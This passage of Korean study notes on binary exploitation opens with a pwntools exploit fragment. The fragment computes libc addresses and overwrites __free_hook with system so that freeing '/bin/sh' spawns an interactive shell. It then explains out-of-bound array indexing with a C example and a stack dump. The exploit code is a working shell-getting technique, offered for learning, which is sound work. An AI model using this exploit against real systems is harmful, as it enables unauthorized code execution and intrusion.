 ```
# OFFSET_LIBC_START_MAIN = libc.symbols['__libc_start_main']
OFFSET_LIBC_START_MAIN = 0x21b10
libc_base = ADDR_LIBC_START_MAIN - OFFSET_LIBC_START_MAIN
addr_system = libc.symbols['system'] + libc_base  # libc_base 에 offset 합산
addr_free_hook = libc_base + libc.symbols['__free_hook']  # libc_base 에 offset 합산
addr_bin_sh = libc_base + next(libc.search(b'/bin/sh'))  # libc에 위치한 "/bin/sh" 문자열의 위치 추출 후 주소 계산

print('libc_base:', hex(libc_base),  '\naddr_free_hook:', hex(addr_free_hook), '\naddr_system:', hex(addr_system), '\naddr_bin_sh:', hex(addr_bin_sh))


##########
# 3. get shell
##########

# stack 에 값을 직접 채워넣을때는 p64() 함수로 패키징을 한 binary 데이터를 전달헀지만,
# 프로그램에서 정상적으로 변수에 값을 집어게 할 때는 string 형태로 변환해야 한다

input1 = str(addr_free_hook).encode()
print(p.recvuntil('To write: '))
p.sendline(input1)  # input1
input2 = str(addr_system).encode()
print(p.recvuntil('With: '))
p.sendline(input2)  # input2
# 코드상 input1(__free_hook) 의 주소를 input2(system) 의 주소로 변경시켜줌

input3 = str(addr_bin_sh).encode()
print(p.recvuntil('To free:'))
p.sendline(input3)  # __free_hook 함수는 __free_hook(arg1) 형태로 동작하므로, arg1 에 "bin/sh" 를 넣어서 system("/bin/sh") 를 만든다.

p.interactive()

```

### Out Of Bound
- C 언어에서는 배열을 참조할 때 `[]` 연산자를 사용한다. 
- 하지만 C 언어 컴파일러는 `[]` 연산자 사용시 배열의 범위를 벗어났는지 체크하지 않고, boundary check 는 오직 개발자의 몫이다.
- `[]` 연산자 사용시 boundary check 가 미흡한 코드가 있다면, boundary 를 벗어나는 index 를 넣어 코드의 특정 메모리를 참조할 수 있고, 이러한 공격을 `OOB`(out of bound) 라 한다.
- 예를 들어, 아래 코드를 실행한다고 하자.
  ```
  char* secret = "SECRET KEY";
  char[] arr = {"name", "age", "phone", "address"};
  int idx;

  scanf("%d", &idx);
  printf("%s", arr[idx]);
  ```
  - 변수 `idx` 에 대한 boundary check 가 되어있지 않아 idx 값을 원하는 대로 넣어 같은 주변의 메모리를 참조할 수 있게 된다. 
  - 실행 될 때 stack 을 예로 들면 아래와 같은 형태가 될 것이다.
    ```
    01:0008│-038 0x7fffffffdec8 —▸ 0x555555558040 (secret) ◂— 'SECRET KEY\n'
    02:0010│-030 0x7fffffffded0 —▸ 0x55555555602d ◂— 'name'
    03:0018│-028 0x7fffffffded8 —▸ 0x555555556041 ◂— 'age'
    04:0020│-020 0x7fffffffdee0 —▸ 0x55555555604d ◂— 'phone'
    05:0028│-018 0x7fffffffdee8 —▸ 0x55555555605b ◂— 'address'
    ```
  - `arr[0]` 은 `0x7fffffffded0` 주소에 해당하고, `arr[-1]`은 `0x555555558040` 주소에 해당하는 값을 반환 한다. 
  - idx 에 -1 을 넣으면 개발자가 의도하지 않은 변수 값인 `secret` 변수의 값 "SECRET KEY" 문자열이 출력되게 할 수 있다. 
